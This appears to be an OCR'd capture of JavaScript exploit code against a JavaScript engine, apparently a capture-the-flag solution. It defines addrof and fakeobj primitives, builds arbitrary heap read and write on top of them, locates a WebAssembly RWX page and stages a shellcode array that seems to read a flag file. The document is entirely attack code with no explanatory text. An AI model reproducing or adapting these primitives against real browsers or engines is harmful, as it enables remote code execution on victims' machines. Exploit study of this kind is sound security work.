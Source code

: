 ```javascript

function addrof(o){
    y2.b[0] = o
    return ftoi(y.b[0]) & 0xffffffffn
}

function fakeobj(addr){
    y.b[0] = itof(addr)
    return y2.b[0]
}

c = [itof(0x82439f1n), itof((4n << 32n) + 0x69696969n)]


function read(addr){
    if (addr % 2n == 0){
        addr += 1n
    }

    c[1] = itof((4n << 32n) + addr-8n)

    let fake = fakeobj(addrof(c) + 112n + 8n)

    return ftoi(fake[0])
}

function heap_write(addr, data){
    if (addr % 2n == 0){
        addr += 1n
    }
    c[1] = itof((4n << 32n) + addr-8n)

    let fake = fakeobj(addrof(c) + 112n + 8n)

    fake[0] = itof(data)
}


function arb_write32(addr, data){
    if (addr % 2n == 1){
        addr -= 1n
    }

    let dataview = new DataView(evil_buf)


    heap_write(addrof(evil_buf) + 0x14n, addr)


    dataview.setBigUint64(0, data, true)
}


evil_buf = new ArrayBuffer(0x100)

print("evil buf @", hex(addrof(evil_buf)))

rwx_page = read(addrof(wasm_instance) + 103n)

print("rwx @", hex(rwx_page))

shellcode = [0xcfe016a, 0x66b84824, 0x2e67616c, 0x50747874, 0x4858026a, 0xf631e789, 0x90050f99, 0x41909090, 0xffffffba, 0xc689487f, 0x6a58286a, 0xf995f01, 0x5]
```